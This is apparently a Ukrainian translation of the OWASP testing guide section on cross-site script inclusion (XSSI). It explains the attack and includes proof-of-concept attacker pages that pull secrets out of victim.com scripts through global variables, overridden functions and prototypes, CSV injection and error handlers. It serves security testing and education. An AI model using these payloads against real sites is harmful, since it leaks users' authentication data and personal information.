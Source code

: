 ## Тестування на Включення Міжсайтового Сценарію
| ID |
|:-:|
| WSTG-CLNT-13 |

### Короткий опис
Уразливість Включення Міжсайтового Сценарію (XSSI) дозволяє витік чутливих даних через межі джерел або доменів, які відрізняються одне від одного. Серед чутливих даних можуть бути дані, пов'язані з автентифікацією (стан автентифікації, файли cookie, маркери автентифікації, ідентифікатори сесій тощо) або особисті або чутливі особисті дані користувача (адреси електронної пошти, номери телефонів, дані кредитних карток, номери соціального страхування тощо). XSSI - це атака на клієнтському боці, подібна до атаки Підробки Міжсайтового Запиту (CSRF), але має інший метафункціональний характер. Де CSRF використовує контекст автентифікованого користувача для виконання певних дій, які змінюють стан на сторінці жертви (наприклад, переказ грошей на рахунок атакуючого, зміна привілеїв, скидання пароля тощо), XSSI натомість використовує JavaScript на клієнтському боці для витоку чутливих даних із автентифікованих сесій.

За замовчуванням веб-сайти мають доступ до даних лише у випадку, якщо вони належать до того самого джерела. Це є ключовим принципом безпеки застосунків і регулюється політикою однакового походження (визначено [RFC 6454](https://datatracker.ietf.org/doc/html/rfc6454)). Походження визначається як поєднання схеми URI (HTTP або HTTPS), імені хоста та номера порту. Однак ця політика не застосовується до включень тегу HTML `<script>`. Ця виняткова ситуація необхідна, оскільки без неї веб-сайти не змогли б використовувати послуги сторонніх постачальників, проводити аналіз трафіку або використовувати рекламні платформи тощо.

Коли браузер відкриває веб-сайт із тегами `<script>`, ресурси отримуються з домену, що відрізняється за походженням. Ресурси потім запускаються в тому самому контексті, що і включений веб-сайт або браузер, що створює можливість витоку чутливих даних. У більшості випадків цього досягається за допомогою JavaScript, але джерело скрипта не обов'язково має бути файлом JavaScript із типом `text/javascript` або розширенням `.js`.

Вразливості старих браузерів (IE9/10) дозволяли витік даних через повідомлення про помилки JavaScript під час виконання, але ці вразливості вже були усунуті постачальниками і вважаються менш актуальними. Встановивши атрибут charset тегу `<script>`, атакуючий або тестер може задати кодування UTF-16, що дозволяє витік даних в інших форматах (наприклад, JSON) у деяких випадках. Для отримання більше інформації щодо таких атак, дивіться атаки, [засновані на ідентифікаторах XSSI](https://www.mbsd.jp/Whitepaper/xssi.pdf).

### Цілі тестування

- Знайти конфіденційні дані в системі.
- Оцінити витік конфіденційних даних за допомогою різних методів.

### Як протестувати
#### Збір Даних З Використанням Аутентифікованих та Неаутентифікованих Сесій Користувачів

Визначте, які кінцеві точки відповідають за відправку чутливих даних, які параметри потрібні, та ідентифікуйте всі відповідні динамічно та статично генеровані відповіді JavaScript з використанням сеансів аутентифікації користувачів. Зверніть особливу увагу на чутливі дані, які відправляються за допомогою [JSONP](https://en.wikipedia.org/wiki/JSONP). Щоб знайти динамічно генеровані відповіді JavaScript, створюйте аутентифіковані та неаутентифіковані запити, а потім порівнюйте їх. Якщо вони відрізняються, це означає, що відповідь є динамічною, в іншому випадку вона є статичною. Для спрощення цього завдання можна використовувати інструмент, такий як [плагін Burp проксі Вейта Гайлперіна](https://github.com/luh2/DetectDynamicJS). Переконайтеся, що перевіряєте інші типи файлів, крім JavaScript; XSSI не обмежується лише файлами JavaScript.

#### Визначення Можливості Витікання Чутливих Даних За Допомогою JavaScript
Тестери повинні аналізувати код на предмет можливостей витікання даних через уразливості XSSI за допомогою наступних методів:
 
 1. Глобальні змінні
 2. Глобальні параметри функцій
 3. CSV (Значення, Розділені Комами) із крадіжкою цитат
 4. Помилки в роботі JavaScript
 5. Ланцюг прототипу за допомогою ключового слова "це"

#### 1. Витікання Чутливих Даних За Допомогою Глобальних Змінних
API-ключ зберігається в файлі JavaScript за адресою `https://victim.com/internal/api.js` на веб-сайті потерпілого, `victim.com`, який доступний лише аутентифікованим користувачам. Атакуючий налаштовує веб-сайт, `attackingwebsite.com`, та використовує тег <script> для посилання на файл JavaScript.

Ось вміст файлу `https://victim.com/internal/api.js`:
```
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```
Місце атаки, `attackingwebsite.com`, має `index.html`з таким кодом:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>";
    </script>
  </body>
</html>
```
У цьому прикладі жертва автентифікується на `victim.com`. Зловмисник спокушає жертву перейти на `attackingwebsite.com` за допомогою соціальної інженерії, фішингових листів тощо. Браузер жертви тоді завантажує `api.js`, що призводить до витоку чутливих даних через глобальну змінну JavaScript і їх відображення за допомогою `innerHTML`.

#### 2 Витік Чутливих Даних через Глобальні Параметри Функцій
У цьому прикладі подібному до попереднього, але в даному випадку `attackingwebsite.com` використовує глобальну функцію JavaScript для видобутку чутливих даних, перезаписуючи глобальну функцію JavaScript жертви.

Ось вміст `https://victim.com/internal/api.js`:
```
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```
Місце атаки, `attackingwebsite.com`, має `index.html`з таким кодом:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```
Існують інші вразливості XSSI, які можуть призвести до витоку конфіденційних даних через ланцюжки прототипів JavaScript або глобальні виклики функцій. Щоб дізнатися більше про ці атаки, перегляньте [Несподівані Небезпеки Динамічного JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf).

#### 3. Витік Конфіденційних Даних через CSV із Крадіжкою Котирувань
Для витоку даних зловмисник/тестувальник повинен мати можливість вставити код JavaScript у дані CSV. Наведений нижче приклад коду є уривком із документації про [атаки XSSI на основі ідентифікатора](https://www.mbsd.jp/Whitepaper/xssi.pdf) Такеші Теради.
```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"___","zzz@example.com","03-0000-0099"
```
У цьому прикладі за допомогою `___` стовпці як точки впровадження та вставлення рядків JavaScript на їх місце має наступний результат.
```
1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"*/}//","zzz@example.com","03-0000-0099"
```
[Джеремія Гроссман писав про подібну вразливість у Gmail](https://blog.jeremiahgrossman.com/2006/01/advanced-web-attack-techniques-using.html) у 2006 році, яка дозволяла видобувати контакти користувачів у JSON. У цьому випадку дані були отримані з Gmail і проаналізовані движком JavaScript браузера за допомогою конструктора Масив без посилання, щоб отримати витік даних. Зловмисник може отримати доступ до цього Масиву з конфіденційними даними, визначивши та перезаписавши внутрішній конструктор Масиву таким чином:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking gmail contacts via JSON </title>
  </head>
  <body>
    <script>
      function Array() {
        // steal data
      }
    </script>
    <script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
  </body>
</html>
```

#### 4. Витік Конфіденційних Даних через Помилки Виконання JavaScript
Браузери зазвичай представляють стандартизовані [повідомлення про помилки JavaScript](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Errors). Однак у випадку IE9/10 повідомлення про помилки виконання надавали додаткові відомості, які могли бути використані для витоку даних. Наприклад, веб-сайт `victim.com` надає такий вміст за URI `http://victim.com/service/csvendpoint` для автентифікованих користувачів:
```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: 13

1,abc,def,ghi
```
Цю вразливість можна використати за допомогою:
```
<!--error handler -->
<script>window.onerror = function(err) {alert(err)}</script>
<!--load target CSV -->
<script src="http://victim.com/service/csvendpoint"></script>
```
Коли веб-переглядач намагається відтворити вміст CSV як JavaScript, це не вдається та відбувається витік конфіденційних даних:
![XSSI1](https://github.com/oleksandrblazhko/ai-191-buriak/assets/145441728/065c7f50-b479-4412-80c5-7f12e1da4d99)

Рисунок 4.11.13-1: Повідомлення про помилку виконання JavaScript

#### 5. Витік Конфіденційних Даних через З’єднання Прототипів 'це'
У JavaScript `це` ключове слово яке має динамічну область видимості. Це означає, що якщо функція викликається до об’єкта, 'це' вона вказуватиме на цей об’єкт, навіть якщо викликана функція може не належати самому об’єкту. Така поведінка може бути використана для витоку даних. У наступному прикладі з [демонстраційної сторінки Себастьяна Лейке](http://sebastian-lekies.de/leak/) конфіденційні дані зберігаються в Масиві. Зловмисник може перевизначити `Array.prototype.forEach` за допомогою функції, керованої зловмисником. Якщо якийсь код викликає `forEach` функцію в екземплярі масиву, який містить конфіденційні значення, буде викликана функція, керована зловмисником, із `це` вказівкою на об’єкт, який містить конфіденційні дані.

Ось уривок файлу JavaScript, який містить конфіденційні дані `javascript.js`:
```
...
(function() {
  var secret = ["578a8c7c0d8f34f5", "345a8b7c9d8e34f5"];

  secret.forEach(function(element) {
    // do something here
  });  
})();
...
```
Конфіденційні дані можуть витікати за допомогою такого коду JavaScript:
```
...
 <div id="result">

    </div>
    <script>
      Array.prototype.forEach = function(callback) {
        var resultString = "Your secret values are: <b>";
        for (var i = 0, length = this.length; i < length; i++) {
          if (i > 0) {
            resultString += ", ";
          }
          resultString += this[i];
        }
        resultString += "</b>";
        var div = document.getElementById("result");
        div.innerHTML = resultString;
      };
    </script>
    <script src="http://victim.com/..../javascript.js"></script>
...
```
